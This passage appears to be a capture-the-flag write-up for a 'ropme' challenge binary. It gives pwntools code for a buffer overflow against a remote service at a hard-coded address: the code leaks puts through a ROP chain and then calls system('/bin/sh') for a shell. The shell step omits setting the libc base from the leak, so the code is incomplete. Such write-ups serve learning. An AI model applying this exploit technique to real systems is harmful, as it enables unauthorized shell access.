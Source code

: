![image](https://user-images.githubusercontent.com/87600765/175791814-4a25c994-3d82-4f09-8a0a-e3d1305f18a8.png)

###### Final binary for found the address of puts 
```py
from pwn import *

elf = context.binary = ELF('./ropme')
p = remote('206.189.125.37', 32733)

libc = ""
rop = ROP(elf)

offset = b'A' * 0x48
puts_plt = elf.plt['puts']
main_plt = elf.symbols['main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]
log.info("Address of Main is:" + hex(main_plt))
log.info("Address of puts@plt:" + hex(puts_plt))
log.info("The gadget pop rdi; ret found at:" + hex(pop_rdi))

puts_got = elf.got['puts']
log.info("Address of puts@got:" + hex(puts_got))
payload = offset + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_plt)
p.clean()
p.sendline(payload)
leak_puts = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info("Function puts leaked:" + hex(leak_puts))
p.interactive()
```

###### SHELL
We did the biggest part. Now that we have the libc you can replace `libc = ""` by `libc = ELF("./libc6_2.23-0ubuntu10_amd64.so")`.
So thx to the base libc adress we will be able to have the `binsh` string address and the `system` adress. 
```py
# shell
system = libc.sym['system']
bin_sh = next(libc.search(b'/bin/sh')) - 64
final_payload = offset + p64(pop_rdi) + p64(bin_sh) + p64(system)
p.clean()
p.sendline(final_payload)
p.interactive()
```
The final payload will call `pop_rdi` that point on the string `/bin/sh` (that will be the parameter of system)and then will call the `system` function.
If you don't put `- 64` after the binsh variable you will have this weird error 
```
sh: 1: %s%s%s%s%s%s%s%s: not found
```

![image](https://user-images.githubusercontent.com/87600765/175791803-7bb12519-e6c3-45c1-8c62-52bda3be56ea.png)
